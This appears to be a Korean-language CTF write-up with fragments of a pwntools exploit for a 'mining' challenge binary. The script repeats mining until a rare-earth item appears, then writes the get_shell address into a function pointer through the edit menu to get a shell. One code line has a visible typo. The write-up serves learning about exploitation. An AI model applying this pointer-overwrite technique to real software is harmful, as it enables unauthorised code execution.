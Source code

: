 ```python
            p.sendline(str(idx).encode())   
            p.recv(37)
            p.send(payload)
            p.interactive()
```

* rare-earth가 등장할 때까지 무한 루프를 돌며 mining을 반복
* 발견되면 바로 edit 메뉴로 진입해서 해당 인덱스를 덮어씀
* payload는 정확히 8바이트 (p64(getsh_addr))로 DESC_FUNC에 정확히 맞게 들어가야 함
* p.interactive()로 쉘을 유지

---------------------------------------

```python
getsh_addr = 0x402576  # get_shell 함수 주소
payload = p64(getsh_addr)  # 리틀엔디언으로 주소 인코딩

idx = 0  # 현재 광물의 인덱스 (vector<Mineral*>에 쌓이는 순서)
```

--------------------

### 반복적으로 mining 시도

```
while True:
    print(idx)
    p.recvuntil(b'>> ')       
    p.sendline(b"1")        
    p.recvline()
    time.sleep(1.1)
    a = p.recvline()
    print('output :', a.decode())  
```
* mining() 호출 (1번 메뉴)
* a는 mining 결과 메시지.

--------------

### 발견된 광물에 따른 분기 처리

```python
    if a == b"[+] Congratulations! you found an *undiscovered* mineral!\n" or a == b"[+] You found a rare-earth element!\n":
        if a == b"[+] Congratulations! you found an *undiscovered* mineral!\n":
            print('mineral')
            p.recvuntil(b"Please enter mineral's description : ")
            p.sendline(b"aaaa")
            idx += 1
```

평범한 광물 발견 시: UndiscoveredMineral → idx 증가


```python
else:
    print('rare-earth')
    ...
    p.sendline('b'3')  # 메뉴 3: edit_mineral_book
    ...
    p.sendline(str(idx).encode())  # 방금 얻은 rare-earth의 인덱스를 넘김
    ...
    p.send(payload)  # 함수 포인터 자리에 get_shell 주소 덮어쓰기
    p.interactive()  # 쉘 진입

```
